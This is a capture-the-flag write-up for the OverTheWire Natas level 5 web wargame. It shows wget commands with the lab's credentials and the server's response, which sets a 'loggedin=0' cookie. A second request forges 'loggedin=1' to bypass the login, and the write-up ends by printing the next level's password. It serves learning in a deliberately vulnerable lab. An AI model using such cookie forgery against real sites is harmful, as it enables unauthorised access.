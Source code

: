 
URL: http://natas5.natas.labs.overthewire.org/

The initial page says that access is denied since you are not logged in. So what stores information about the logged in status? Try seeing the server response:

```s
wget http://natas5.natas.labs.overthewire.org/ --user=natas5 --password=iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --server-response
``` 
The following information pops up.

```s
--2020-07-05 21:13:35--  http://natas5.natas.labs.overthewire.org/
Resolving natas5.natas.labs.overthewire.org (natas5.natas.labs.overthewire.org)... 176.9.9.172
Connecting to natas5.natas.labs.overthewire.org (natas5.natas.labs.overthewire.org)|176.9.9.172|:80... connected.
HTTP request sent, awaiting response... 
  HTTP/1.1 401 Unauthorized
  Date: Sun, 05 Jul 2020 15:41:36 GMT
  Server: Apache/2.4.10 (Debian)
  WWW-Authenticate: Basic realm="Authentication required"
  Content-Length: 480
  Keep-Alive: timeout=5, max=100
  Connection: Keep-Alive
  Content-Type: text/html; charset=iso-8859-1
Authentication selected: Basic realm="Authentication required"
Reusing existing connection to natas5.natas.labs.overthewire.org:80.
HTTP request sent, awaiting response... 
  HTTP/1.1 200 OK
  Date: Sun, 05 Jul 2020 15:41:36 GMT
  Server: Apache/2.4.10 (Debian)
  Set-Cookie: loggedin=0 ############################################ <-- THIS
  Vary: Accept-Encoding
  Content-Length: 855
  Keep-Alive: timeout=5, max=99
  Connection: Keep-Alive
  Content-Type: text/html; charset=UTF-8
Length: 855 [text/html]
Saving to: ‘index.html’

index.html             100%[=========================>]     855  --.-KB/s    in 0s      

2020-07-05 21:13:36 (50.0 MB/s) - ‘index.html’ saved [855/855]
```

Note a cookie storing information `Set-Cookie: loggedin=0`. We need to change this. 

```s
wget http://natas5.natas.labs.overthewire.org/ --user=natas5 --password=iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --server-response --header "Cookie: loggedin=1" 
```

This downloads a file named index.html.1. Open that to your delight.

Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
